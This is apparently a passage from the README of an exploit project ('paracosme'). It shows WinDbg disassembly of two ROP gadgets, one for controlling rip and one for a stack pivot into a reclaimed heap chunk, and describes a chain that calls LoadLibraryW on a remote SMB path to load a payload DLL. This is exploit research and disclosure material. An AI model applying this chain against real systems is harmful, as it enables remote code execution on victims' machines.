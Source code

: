 ### ROP

The first gadget that used is a gadget that allows us to fully control `@rip` (without any indirection):

```
0:011> u poi(1400aed18)
00007ffb2137ffe0   sub     rsp,38h
00007ffb2137ffe4   test    rcx,rcx
00007ffb2137ffe7   je      00007ffb`21380015
00007ffb2137ffe9   cmp     qword ptr [rcx+10h],0
00007ffb2137ffee   jne     00007ffb`2137fff4
 ...
00007ffb2137fff4   and     qword ptr [rsp+40h],0
00007ffb2137fffa   mov     rax,qword ptr [rcx+10h]
00007ffb2137fffe   call    qword ptr [mfc140u!__guard_dispatch_icall_fptr (00007ffb`21415b60)]
```

We can place the address of the next gadget at offset `+0x10` in the chunk we reclaim (pointed by `@rcx`) which is great.

The second gadget we use pivots the stack to the reclaimed heap chunk we have full control over:

```
0:008> u 14005bd25
000000014005bd25   mov     esp,ecx
000000014005bd27   cmp     byte ptr [1400fe788],0
000000014005bd2e   je      000000014005bebc
...
000000014005bebc   lea     r11,[rsp+60h]
000000014005bec1   mov     rbx,qword ptr [r11+30h]
000000014005bec5   mov     rbp,qword ptr [r11+38h]
000000014005bec9   mov     rsi,qword ptr [r11+40h]
000000014005becd   mov     rsp,r11
000000014005bed0   pop     r15
000000014005bed2   pop     r14
000000014005bed4   pop     r13
000000014005bed6   pop     r12
000000014005bed8   pop     rdi
000000014005bed9   ret
```

Funny thing is that the address of our heap chunk seems to be located (always?) in a location that fits in a 32-bit integer and that is why `mov esp, ecx` works fine.

At this point we have ROP but we don't have a whole lot of space which was pretty frustrating. I spent a bunch of time trying to align the stars and eventually came up with a sequence of gadgets that invokes `LoadLibraryW` with a remote SMB path pointing to a DLL file that hosts our payload. If you are interested in the details of the chain, check out [paracosme.py@241](src/paracosme.py).

## Authors
* Axel '[0vercl0k](https://twitter.com/0vercl0k)' Souchet
